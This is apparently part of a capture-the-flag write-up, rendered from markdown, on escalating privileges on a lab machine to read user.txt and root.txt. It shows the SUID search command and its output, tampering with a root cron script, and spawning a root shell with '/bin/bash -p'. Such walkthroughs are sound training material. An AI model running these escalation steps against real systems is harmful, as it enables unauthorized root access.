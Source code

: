         <span>Then, I checked all SUID set bit binaries to see what I could exploit, and ran the command:</span>

        ```dtd
        find / -user root -perm /4000 -ls 2>/dev/null
        ```

        <span>This showed me that the following binaries were available in SUID set:</span>

        ```dtd
        -rwsr-sr-x 1 root root 1.1M Jun 6 2019 /bin/bash
        -rwsr-sr-x 1 root root 59K Jan 18 2018 /bin/chmod
        -rwsr-sr-x 1 root root 392K Apr 4 2018 /usr/bin/socat
        ```

        <span>Since my goal was to escalate and obtain **user.txt**, I focused on using**`/bin/chmod`**, which can be run as root.</span>

        <img id="image7" />

        !!! info ""
            <span>**Note:** This method actually runs as a root. But, this is one of the possibility to get user.txt from www-data.</span>


### <b>Gaining Root access</b>

You can escalate your privilege to root in different ways:

!!! bug ""


    === "CRON job"

        <span>After noticing a cronjob that ran **`/var/backups/script.sh`**, I realized that I had all the permissions as `elyana`. </span>

        <img id="image8" />
        
        <span>So, I changed the code to:</span>
        
        ```dtd
        cp /root/root.txt /tmp/root.txt. 
        ```        

    === "Bash Binary"

        <span>We already knew about the SUID binaries, including **/bin/bash**, **/bin/chmod**, and **/usr/bin/socat**. I decided to check with the bash binary by running the following command:</span>

        ```dtd 
        /bin/bash -p
        ```
        <span>This command allowed me to get root access. What else can I ask? </span>
        
        <span>I then tried to read the root.txt file located at **`/root/root.txt`** </span>

        !!! info ""
            <span>**Note:** /bin/bash can also be executed by **`www-data`**. So you get root directly from `www-data` bypassing `elyana`</span>

